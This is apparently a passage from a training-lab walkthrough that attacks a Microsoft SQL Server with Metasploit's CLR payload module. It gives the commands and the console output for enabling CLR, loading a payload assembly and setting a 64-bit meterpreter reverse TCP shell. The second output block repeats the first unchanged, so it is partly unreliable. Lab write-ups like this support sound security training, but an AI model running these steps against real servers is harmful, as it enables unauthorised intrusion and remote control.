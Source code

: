 ```
  
  Tested on MS SQL Server versions: 2005, 2012, 2016 (all x64).
```

💡 **Perfect!** This exploit is tested specifically on SQL Server 2012, and it uses CLR assemblies to execute code. The beauty of this approach is that it doesn't leave files on disk, making it stealthier.

```bash
# Set the target
set RHOSTS target.ine.local

# Run the exploit
run
```

**Initial Exploit Output:**
```
msf6 exploit(windows/mssql/mssql_clr_payload) > set RHOSTS target.ine.local
RHOSTS => target.ine.local
msf6 exploit(windows/mssql/mssql_clr_payload) > exploit

[*] Started reverse TCP handler on 10.10.47.2:4444
[-] 10.5.23.147:1433 - Getting EXITFUNC to 'thread' so we don't kill SQL Server
[-] 10.5.23.147:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[-] 10.5.23.147:1433 - Database does not have CLR support enabled, enabling ...
[-] 10.5.23.147:1433 - Using version specific SQL CLR payload Assembly
[-] 10.5.23.147:1433 - Adding custom SQL CLR payload as new Assembly...
[-] 10.5.23.147:1433 - Executing the payload ...
[-] Exploit completed, but no session was created.
```

😤 **Hmm, that didn't work!** The exploit ran but no session was created. This often happens when there's an architecture mismatch - the default payload might be 32-bit, but we're dealing with a 64-bit system.

#### Step 5: Payload Architecture Fix
If the exploit fails due to architecture mismatch:

```bash
# Set 64-bit payload for Windows
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Run the exploit again
run
```

**Initial Exploit Output:**
```
msf6 exploit(windows/mssql/mssql_clr_payload) > set RHOSTS target.ine.local
RHOSTS => target.ine.local
msf6 exploit(windows/mssql/mssql_clr_payload) > exploit

[*] Started reverse TCP handler on 10.10.47.2:4444
[-] 10.5.23.147:1433 - Getting EXITFUNC to 'thread' so we don't kill SQL Server
[-] 10.5.23.147:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[-] 10.5.23.147:1433 - Database does not have CLR support enabled, enabling ...
[-] 10.5.23.147:1433 - Using version specific SQL CLR payload Assembly
[-] 10.5.23.147:1433 - Adding custom SQL CLR payload as new Assembly...
[-] 10.5.23.147:1433 - Executing the payload ...
[-] Exploit completed, but no session was created.
```
